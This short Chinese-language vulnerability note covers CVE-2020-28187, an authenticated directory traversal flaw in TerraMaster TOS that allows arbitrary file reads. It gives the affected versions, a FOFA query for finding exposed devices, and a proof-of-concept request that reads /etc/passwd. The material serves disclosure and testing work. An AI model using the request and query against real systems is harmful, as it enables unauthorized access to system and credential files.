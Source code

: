 # TerraMaster TOS 后台任意文件读取漏洞 CVE-2020-28187

## 漏洞描述

TerraMaster TOS <= 4.2.06中的多个目录遍历漏洞允许远程身份验证的攻击者通过/tos/index.php?editor/fileGet路径下的filename参数、 /include/ajax/logtable.php路径下的Event参数和/include/core/index.php路径下的opt参数，读取文件系统中的任何文件。

## 漏洞影响

<a-checkbox checked>TerraMaster TOS < 4.2.06</a-checkbox></br>

## FOFA

<a-checkbox checked>"TerraMaster" && header="TOS"</a-checkbox></br>

## 漏洞复现

登陆后访问，验证漏洞的POC为

```plain
/tos/index.php?editor/fileGet&filename=../../../../../../etc/passwd
```

![img](../../../.vuepress/public/img/tm-8.png)